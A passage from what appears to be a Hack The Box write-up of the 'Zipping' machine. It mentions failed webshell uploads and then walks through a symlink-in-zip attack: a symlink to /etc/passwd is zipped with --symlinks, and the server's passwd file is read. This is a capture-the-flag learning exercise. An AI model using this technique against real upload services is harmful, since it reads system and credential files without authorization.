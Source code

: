Did not find any exploit for this version of `pdfTeX`

Responses during the attempt to upload webshells :

![](/assets/obsidian/71b944a877c63b874d9529b38b237a16.png)

![](/assets/obsidian/4179a6aa1fb80ef15dd3225dcfcc1c7b.png)


#### Symlinks in zip

> Hacktricks - [Zip/Tar File Automatically decompressed Upload](https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload)

```bash
┌──(bravosec㉿fsociety)-[~/htb/Zipping/exploit]
└─$ ln -s ../../../../../../etc/passwd test.pdf

┌──(bravosec㉿fsociety)-[~/htb/Zipping/exploit]
└─$ zip --symlinks test.zip test.pdf
  adding: test.pdf (stored 0%)
```

![](/assets/obsidian/1bb2ee931052f26632f2b9e047e89cde.png)

```bash
┌──(bravosec㉿fsociety)-[~/htb/Zipping/loot]
└─$ cat passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
rektsu:x:1001:1001::/home/rektsu:/bin/bash
```
